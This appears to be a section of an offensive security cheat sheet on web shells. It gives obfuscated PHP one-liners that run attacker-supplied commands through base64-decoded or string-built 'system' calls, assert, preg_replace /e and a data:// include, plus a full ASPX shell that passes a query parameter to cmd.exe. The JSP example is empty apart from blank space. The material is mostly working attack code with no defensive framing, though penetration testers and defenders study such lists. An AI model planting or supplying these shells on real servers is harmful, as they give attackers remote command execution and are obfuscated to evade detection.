 ### Advanced Web Shells

#### Obfuscated PHP Shells

```php
// Base64 encoded function names
<?php $a=base64_decode('c3lzdGVt');$a($_REQUEST['x']); ?>

// Variable functions
<?php $f='sys'.'tem';$f($_GET['c']); ?>

// Create_function
<?php $func = create_function('$cmd', 'system($cmd);'); $func($_GET['cmd']); ?>

// Assert
<?php assert($_REQUEST['cmd']); ?>

// Preg_replace with /e modifier
<?php preg_replace('/.*/e', $_REQUEST['cmd'], ''); ?>

// Include with data wrapper
<?php include('data://text/plain;base64,'.base64_encode('<?php system($_GET["cmd"]); ?>')); ?>
```

#### JSP Shells

```jsp
<%@ page import="java.io.*" %>
<%
                                                                                                                                                                                                                                                       
%>
```

#### ASP/ASPX Shells

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%
string cmd = Request.QueryString["cmd"];
Process proc = new Process();
proc.StartInfo.FileName = "cmd.exe";
proc.StartInfo.Arguments = "/c " + cmd;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.RedirectStandardOutput = true;
proc.Start();
Response.Write(proc.StandardOutput.ReadToEnd());
%>
```

---

## File Inclusion Vulnerabilities
